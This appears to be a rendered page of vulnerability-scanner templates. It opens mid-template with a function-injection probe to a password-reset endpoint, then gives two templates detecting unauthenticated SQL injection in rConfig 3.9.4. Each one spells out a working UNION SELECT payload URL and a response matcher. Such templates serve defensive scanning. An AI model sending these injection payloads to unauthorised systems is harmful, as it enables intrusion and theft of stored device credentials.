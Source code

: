 ### URL
- {{BaseURL}}/auth/requestreset
  - {
  "user": {
    "$func": "var_dump"
  }
}

### Matchers

**Type - regex**
- part - body
- regex
    1. string\([0-9]{1,3}\)(\s)?"([A-Za-z0-9]+)"

---
# rConfig 3.9.4 - SQL Injection
## Description
- rConfig 3.9.4 and previous versions have unauthenticated compliancepolicies.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/compliancepolicies.inc.php?search=True&searchColumn=policyName&searchOption=contains&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL+--+
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. [project-discovery]
- part - body

---
# rConfig <=3.9.4 - SQL Injection
## Description
- rConfig 3.9.4 and prior has unauthenticated snippets.inc.php SQL injection. Because nodes' passwords are stored in cleartext by default, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/snippets.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL+--+&searchColumn=snippetName&searchOption=contains